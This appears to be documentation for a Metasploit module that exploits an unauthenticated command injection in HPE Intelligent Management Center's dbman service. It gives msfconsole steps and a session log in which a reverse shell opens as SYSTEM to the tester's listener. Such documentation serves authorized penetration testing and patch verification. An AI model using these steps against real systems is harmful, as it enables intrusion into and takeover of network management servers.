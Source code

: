## Description

  This module exploits a remote command execution vulnerablity in Hewlett Packard Enterprise Intelligent Management Center before version 7.3 E0504P04.

  The dbman service allows unauthenticated remote users to restore a user-specified database (OpCode 10007), however the database connection username is not sanitized resulting in command injection, allowing execution of arbitrary operating system commands as SYSTEM. This service listens on TCP port 2810 by default.


## Vulnerable Application

  [HPE Intelligent Management Center Enterprise Software Platform](https://www.hpe.com/au/en/product-catalog/networking/intelligent-management-software/pip.hp-intelligent-management-center-enterprise-software-platform.4176520.html) is a comprehensive wired and wireless network management tool.

  This module has been tested successfully on:

  * iMC PLAT v7.2 (E0403) on Windows 7 SP1 (EN).

  Installer:

  * [iMC PLAT v7.2 (E0403) Standard](https://h10145.www1.hpe.com/Downloads/DownloadSoftware.aspx?SoftwareReleaseUId=16759&ProductNumber=JG747AAE&lang=en&cc=us&prodSeriesId=4176535&SaidNumber=)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/windows/misc/hp_imc_dbman_restoredbase_unauth_rce`
  3. Do: `set RHOST <IP>`
  4. Do: `run`
  5. You should get a session


## Scenarios

  ```
  msf > use exploit/windows/misc/hp_imc_dbman_restoredbase_unauth_rce 
  msf exploit(windows/misc/hp_imc_dbman_restoredbase_unauth_rce) > set rhost 172.16.191.166
  rhost => 172.16.191.166
  msf exploit(windows/misc/hp_imc_dbman_restoredbase_unauth_rce) > set verbose true
  verbose => true
  msf exploit(windows/misc/hp_imc_dbman_restoredbase_unauth_rce) > check
  [*] 172.16.191.166:2810 The target service is running, but could not be validated.
  msf exploit(windows/misc/hp_imc_dbman_restoredbase_unauth_rce) > run

  [*] Started reverse TCP handler on 172.16.191.238:4444 
  [*] 172.16.191.166:2810 - Powershell command length: 6123
  [*] 172.16.191.166:2810 - Sending payload (6123 bytes)...
  [*] Sending stage (179779 bytes) to 172.16.191.166
  [*] Meterpreter session 1 opened (172.16.191.238:4444 -> 172.16.191.166:49176) at 2018-01-05 05:30:48 -0500

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  smeterpreter > sysinfo 
  Computer        : WIN-SGBSD5TQUTQ
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 1
  Meterpreter     : x86/windows
  ```

